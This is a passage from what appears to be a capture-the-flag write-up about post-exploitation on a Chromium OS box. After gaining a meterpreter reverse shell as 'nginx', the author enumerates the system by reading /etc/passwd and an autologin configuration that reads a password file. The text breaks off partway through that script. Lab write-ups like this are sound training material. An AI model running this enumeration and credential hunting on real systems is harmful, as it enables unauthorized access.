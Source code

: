 So, we got a reverse shell of the web application “nginx”. Then get rid of the meterpreter shell by executing “shell” command. However still we are not a user of this system. When enumerating, I came across that there is a user called **katie** apart from **root** and **nginx**. I saw it when viewing the "/etc/passwd" file.

```bash
meterpreter > shell
Process 34320 created.
Channel 0 created.
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory
/usr/bin/script -qc /bin/bash /dev/null
sh: 0: getcwd() failed: No such file or directory
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
sh_makepath: error retrieving current directory: getcwd: cannot access parent directories: Success
bash-4.3$ whoami
whoami
nginx
bash-4.3$ cat /etc/passwd
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```
When enumerating furthermore, I came across a file called **autologin.conf.orig** which is located at “/opt” directory.

```bash
bash-4.3$ cd /opt
cd /opt
bash-4.3$ ls -la
ls -la
total 44
drwxr-xr-x 10 root root 4096 Feb  3 16:42 .
drwxr-xr-x 22 root root 4096 Feb  2 14:52 ..
drwxr-xr-x  2 root root 4096 Jun 28  2020 VirtualBox
-rw-r--r--  1 root root  978 Feb  3 16:02 autologin.conf.orig
drwxr-xr-x  2 root root 4096 Jan 15 15:53 broadcom
drwxr-xr-x  2 root root 4096 Jan 15 15:54 displaylink
drwxr-xr-x  2 root root 4096 Jan 15 15:53 eeti
drwxr-xr-x  5 root root 4096 Jan 15 15:55 google
drwxr-xr-x  6 root root 4096 Feb  2 15:15 neverware
drwxr-xr-x  5 root root 4096 Jan 15 15:54 tpm1
drwxr-xr-x  5 root root 4096 Jan 15 15:54 tpm2
bash-4.3$ cat autologin.conf.orig
cat autologin.conf.orig
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
```